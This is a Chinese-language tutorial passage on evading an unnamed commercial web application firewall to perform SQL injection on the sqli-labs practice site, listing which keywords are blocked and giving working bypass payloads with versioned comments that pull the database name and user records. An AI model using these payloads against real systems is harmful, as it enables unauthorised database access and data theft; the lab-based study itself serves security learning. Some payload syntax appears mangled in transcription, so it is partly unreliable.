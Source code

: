 ### 13.4 安防软件bypass绕过实例（dayu-twenty-sixth days）

    1、mysql尝试
    
        

今天我们要介绍的bypass的软件是某知名安全厂商的产品，但是由于一些原因所以我们将他的名字隐去，以下均称为某安防软件，下面我们来尝试怎么绕过他

首先某安防软件是不过滤大部分符号的，所以前期还是可以手工测出注入，但or 跟and百分之1000会拦截，但具体怎么才会拦截？

**环境介绍：某安防软件 apache4.0**-
php5.5-
windows-
sql-labs 第一关。

**2、判断注入点存在**

    or 不拦截
    and 不拦截
    or 1跟 and 1 都拦截
    xor 1=1 不拦截
    xor 1=2 不拦截
    
        

以上三个测试合理怀疑 or跟and后面跟有数字才会拦截，但xor（逻辑异或，两个条件其中一个为真时结果才为真）却不会拦截

    or ～1  不拦截
    and ～1 不拦截
    and hex(1) 不拦截
    and hex(1)=hex(1) 拦截
    and hex(1)!=hex(1) 不拦截
    or ~1=~1 不拦截
    and ~!=~1 不拦截
    1 | 1  不拦截
    
        

以上测试合理推测 or跟 and后面只要加特定字符加数字，有可能不拦截，然后数字之间是=的话，有可能拦截，可用!= > <等符号代替测试。

    and hex(1)=hex(1)  拦截
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012105136922.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
`and hex(1)!=hex(1)` 不拦截，报错。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012105157399.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
`and hex(1)!=hex(2)` 不拦截，结果正常，确定 注入点存在-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101210521272.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    3、union联合注入
    
        

    union    不拦截
    select   不拦截
    union select 拦截
    union 各种字符 select 拦截
    union/select/ 不拦截
    
        

但 `union/select/ 1,2,3` 出不了数据-
但`XXX//sql/Less-1/?id=-1’ union/!11440select/1,2,3 – +`这样可以-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012105251275.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**出数据：**

    user() 拦截
    current_user 不拦截
    database() 拦截
    hex(database//(//)) 不拦截  但要自己hex转str
    http://XXX//sql/Less-1/?id=-1e1' union/!11440select/1/*/,/!11440database()/,3 – +拦截
    http://XXX//sql/Less-1/?id=-1e1' union/!11440select/1/asaaaaa/,/!11440database()/,3 – +拦截
    http://XXX//sql/Less-1/?id=-1e1' union/!11440select/1/!a/,/!11440database()/,3 – +
    
        

**出数据例子，不拦截**

    -1’ union/!11440select*/1,username,3 from security.users limit 1,1– +
    不拦截
    
        

* * *